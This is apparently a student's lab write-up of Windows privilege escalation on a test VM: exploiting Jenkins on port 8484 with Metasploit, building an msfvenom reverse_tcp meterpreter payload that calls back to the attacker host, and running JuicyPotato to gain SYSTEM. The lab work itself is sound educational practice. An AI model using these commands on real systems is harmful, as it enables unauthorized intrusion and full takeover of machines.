 # Windows Privilege Escalation

## Objective: 
Windows Privilege Escalation, leveraging tools and techniques to gain unauthorized access to system-level resources on a Windows Server machine within a controlled environment. The lab commences with gaining a limited shell via exploiting Jenkins on port 8484, followed by escalating privileges using Juicy Potato. This project provides hands-on experience in exploiting service vulnerabilities, working with Meterpreter shell, and privilege escalation techniques. The ultimate objective is to attain an NT AUTHORITY\SYSTEM level access, thereby demonstrating the vulnerabilities and the importance of securing Windows systems.

## Walkthrough:

### Part 1

- I initiated a Nmap scan within a specified IP range using the command **nmap 10.0.2.0/25**. Given that my host IP is 10.0.2.6, I deduced that the Windows VM IP is 10.0.2.8 with multiple open ports.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp1.png" alt="">
</p>

- I noticed that port 8484 wasn’t displayed as open, prompting me to check using the command **"nmap -p 8484 -sV 10.0.2.8"**. I found it open and identified the running service to be **Jetty winstone-2.8**, an HTTP service.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP2.png" alt="">
</p>

- With this information, I accessed Jenkins by entering the IP address and port number **10.0.2.8:8484** in Firefox.

  <p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp3.png" alt="">
</p>

- I then switched to the terminal and entered **MSFconsole** to search for Jenkins exploits. Following the instructions, I selected **exploit number 6**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP4.png" alt="">
</p>

- Setting options for this exploit, I configured the username and password to **vagrant**, defined the rhost as 10.0.2.8 (target IP), set the target URI based on the Firefox URL **http://10.0.2.8:8484/**, defined the srvhost as my host IP (10.0.2.6), and assigned the rport as 8484. Executing the **run** command opened the meterpreter session 1 as NT Authority\local service.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP5.1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP5.2.png" alt="">
</p>

- I verified if the SeImpersonatePrivilege was enabled, and it was.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP6.png" alt="">
</p>

- Next, I uploaded **JuicyPotato** to the target machine using the meterpreter command **upload /home/kali/Downloads/JuicyPotato.exe**.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP7.1.png" alt="">
</p>
<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/WP7.2.png" alt="">
</p>

- A quick **ls** command confirmed its presence on the machine with **rwx** permissions across all user groups.

<p align="center">
  <img src="https://github.com/B-Johnson89/Cybersecurity-Projects/blob/main/Windows%20Privesc/Assets/wp8.png" alt="">
</p>

### Part 2

- The task began with the creation of a 64-bit Windows meterpreter using MSFvenom. In the Kali terminal, the command **“msfvenom -l payloads | grep windows”** was issued to display a list of Windows payloads. I opted for **“windows/x64/meterpreter/reverse_tcp”**.
- To construct the payload, the command **“msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.6 LPORT=4445 -f exe > windyprivesc.exe”** was executed.
- The subsequent step was to transfer the crafted file to the target machine. Within the meterpreter environment, this was achieved using the **“upload windyprivesc.exe”** command.
- To proceed, the generic multi-handler exploit was required. After launching MSFconsole, I searched for multi handlers. I chose option 5, recognized as a generic payload handler, and configured the payload, LHOST, and LPORT accordingly.
- The core task was to run the exploit within the directory containing both JuicyPotato and the windyprivesc.exe file on the target VM. This operation was performed inside a shell in meterpreter, using the command **“C:\Program Files\jenkins\Scripts>.\JuicyPotato.exe -t * -p windyprivesc.exe -l 4445”**.
- Once redirected to the multi handler and upon gaining access to the shell, the command **“whoami /priv”** was run. The resultant display showed all enabled privileges. To conclude the assignment, I echoed my name into the terminal for verification purposes.
